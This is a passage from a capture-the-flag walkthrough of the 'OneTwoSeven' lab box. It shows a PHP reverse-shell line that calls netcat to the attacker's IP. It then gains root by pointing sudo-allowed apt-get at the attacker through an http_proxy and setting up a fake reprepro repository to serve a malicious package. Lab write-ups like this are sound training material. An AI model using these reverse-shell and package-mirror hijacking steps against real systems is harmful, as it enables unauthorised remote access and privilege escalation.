 ```
echo shell_exec("nc 10.10.16.66 443 -e /bin/sh");
?>
--------------------------8c1bb633500ccc52
```

Unfortunately there is still no user flag in sight, so we continue by trying to root the box. Running `sudo -l` shows the following:

```
...
User www-admin-data may run the following commands on onetwoseven:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get update, /usr/bin/apt-get upgrade
```

This is interesting, we run `sudo apt-get update` to see which mirrors it will try to resolve:

```
sudo apt-get update
Err:1 http://packages.onetwoseven.htb/devuan ascii InRelease
  Temporary failure resolving 'packages.onetwoseven.htb'
Err:2 http://de.deb.devuan.org/merged ascii InRelease
  Temporary failure resolving 'de.deb.devuan.org'
Err:3 http://de.deb.devuan.org/merged ascii-security InRelease
  Temporary failure resolving 'de.deb.devuan.org'
Err:4 http://de.deb.devuan.org/merged ascii-updates InRelease
  Temporary failure resolving 'de.deb.devuan.org'
Reading package lists...
```

We see a custom entry for "packages.onetwoseven.htb". What we can do now is try to trick the box into connecting to a fake repository which contains a fake package, allowing us to get code execution as root. We can redirect the requests from apt-get to our box simple by specifying a http-proxy:

```
export http_proxy='http://10.10.16.66:10000'  
```

Now we want to setup a fake repo named devuan (because this is the folder the request expects). We use "repro" to create the repo:

```
sudo apt-get install reprepro
mkdir devuan
mkdir devuan/conf
touch devuan/conf/distributions
nano devuan/conf/distributions
```

File "distributions":

```
Origin: packages.onetwoseven.htb
Label: packages.onetwoseven.htb
Codename: ascii
Architectures: i386 amd64 source
Components: main
Description: xct
```
